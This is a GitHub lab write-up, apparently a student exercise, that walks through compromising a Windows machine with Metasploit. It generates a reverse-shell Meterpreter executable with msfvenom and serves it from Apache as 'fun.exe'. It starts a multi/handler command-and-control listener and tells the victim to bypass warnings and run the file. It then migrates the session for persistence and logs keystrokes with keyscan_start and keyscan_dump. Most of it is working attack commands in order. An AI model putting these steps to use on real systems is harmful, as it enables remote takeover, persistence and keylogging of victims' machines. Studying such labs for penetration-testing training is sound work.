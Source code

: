 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/0f0a4214-f2dc-4996-8926-eb56392bcc9c)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/7556fc57-da46-4e95-8513-3751c39f7877)



copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/ef0ae3f2-ed72-4581-a5e3-082fc0c1c662)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/06567d9d-bf5a-46f3-8915-09e660fd0ee6)



Check the status of apache2
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6ce0d347-84b4-4782-9e05-3684db0a972a)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/039dce90-c240-40e3-a053-479988b6de5a)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/aa0b8678-65a2-4343-860c-047c9a5f377d)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/e52ec7e8-339e-4c61-97d4-6ded61fa3868)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/8347aaba-4690-4922-8388-33f496f36796)


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6e719e14-830f-4589-a9de-86ebbba28b65)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
